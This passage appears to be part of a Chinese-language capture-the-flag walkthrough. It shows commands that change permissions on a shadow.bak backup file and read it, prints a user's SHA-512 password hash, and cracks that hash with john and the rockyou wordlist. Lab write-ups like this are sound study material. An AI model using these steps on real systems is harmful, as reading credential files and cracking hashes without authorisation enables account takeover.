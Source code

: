 然后切换到这个目录去查看，发现只有写权限

![](./pic/46.jpg)

那么使用`chmod`改变权限，因为文件的所有者是`cinco`的

```shell
chmod 777 shadow.bak
cat shadow.bak
```

发现备份文件中，只有一个用户`seis`是有密码的

```shell
seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```

![](./pic/47.jpg)

使用`john`或者`hashcat`进行爆破，这里的提示，估计是使用`rockyou.txt`字典

首先把上面的数据保存在`hash`文件中，然后执行`john`进行破解

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![](./pic/48.jpg)
